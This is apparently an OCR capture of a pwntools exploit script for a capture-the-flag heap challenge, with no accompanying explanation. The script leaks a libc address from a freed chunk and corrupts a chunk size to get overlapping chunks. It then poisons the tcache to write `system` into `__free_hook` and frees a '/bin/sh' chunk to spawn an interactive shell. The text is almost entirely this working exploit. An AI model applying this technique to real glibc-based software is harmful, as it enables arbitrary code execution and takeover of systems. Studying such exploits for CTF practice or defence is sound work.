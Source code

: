     def show(idx):
        sla(b'> ',b'2')
        sla(b'> ',str(idx).encode())

    def edit(idx,data):
        sla(b'> ',b'3')
        sla(b'> ',str(idx).encode())
        sa(b'> ',data)

    def delete(idx):
        sla(b'> ',b'4')
        sla(b'> ',str(idx).encode())


    create(0x500,b'ntn')    #0
    create(24,b'b'*24)  #1
    create(24,b'c'*24)  #2
    create(24,b'd'*24)  #3
    create(24,b'f'*24)  #4
    create(24,b'/bin/sh')  #5

    #GDB()

    delete(0)
    create(0x20,b'a')

    show(0)

    p.recvuntil(b'Plan [0]: ')
    leak = p.recv(6)
    leak = u64(leak.ljust(8,b'\0'))
    print("leak = " + hex(leak))

    libc.address = leak - 0x3ec061
    print("libc base = " + hex(libc.address))

    free_hook = libc.sym['__free_hook']
    print("free hook = " + hex(free_hook))


    edit(1,b'a'*24 + p8(0xd1))
    delete(2)
    delete(4)
    delete(3)


    create(200,b'a'*24 + p64(0x0000000000000021) + p64(free_hook))
    create(24,b'null')
    create(24,p64(libc.sym.system))

    delete(5)






    p.interactive()

### Contractor
